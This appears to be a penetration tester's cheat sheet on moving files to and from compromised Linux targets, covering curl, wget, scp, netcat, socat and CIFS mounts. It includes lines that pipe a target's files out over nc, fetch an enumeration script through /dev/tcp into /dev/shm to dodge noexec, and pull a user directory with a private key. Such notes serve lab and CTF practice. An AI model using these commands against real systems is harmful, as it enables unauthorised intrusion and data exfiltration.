 # Linux File Transfers


## Utilities

```bash
curl http://$IP/$file -o $file
wget http://$IP/$file
```

`scp` from [[SSH-Cheatsheet]]
```bash
# Copy a local file to remote host 
scp <file> <user>@<host>:<dest>

# dump user directory with wildcard *
scp -i id_rsa user@10.10.10.10:* . 

# To copy a file from a remote server to your local machine:
scp -P $portnumber <user>@<host>:<src> <dest>

# To scp a file over a SOCKS proxy on localhost and port 9999 (see ssh for tunnel setup):
scp -o "ProxyCommand nc -x 127.0.0.1:9999 -X 4 %h %p" <file> <user>@<host>:<dest>

# To scp between two remote servers from the third machine:
scp -3 <user>@<host1>:<src> <user>@<host2>:<dest>
```

## Bash Redirection

Check `mount` if /`dev/shm/` has `no exec`, this is just an example
```bash
# Use nc to serve the file
nc -lvnp 80 < LinEnum.sh
# Target machine
mount | grep shm
bash -c "cat < /dev/tcp/$IP/$PORT > /dev/shm/LinEnum.sh"
```
[Ippsec Reddish Video](https://www.youtube.com/watch?v=Yp4oxoQIBAM)

## `ncat` | `nc`

Target machine
```bash
tar cf - . | nc $IP $PORT
```
Attack machine
```bash
ncat -nlvp $PORT | tar xf -
```

## `socat`

Use [[Socat]], Host with:
```bash
sudo socat TCP4-LISTEN:$PORT,fork file:$filename
```
Transfer with
```powershell
socat TCP4:$IP:$PORT file:$filename,create
```


## SMB Cif-Utils

```shell
sudo mount -t cifs -o 'user=$username,password=$password' //$IP/share /mnt/sharename
```

[Kali Cif-Utils](https://www.kali.org/tools/cifs-utils/)


## References

[Ippsec Reddish Video](https://www.youtube.com/watch?v=Yp4oxoQIBAM)
[Kali Cif-Utils](https://www.kali.org/tools/cifs-utils/)
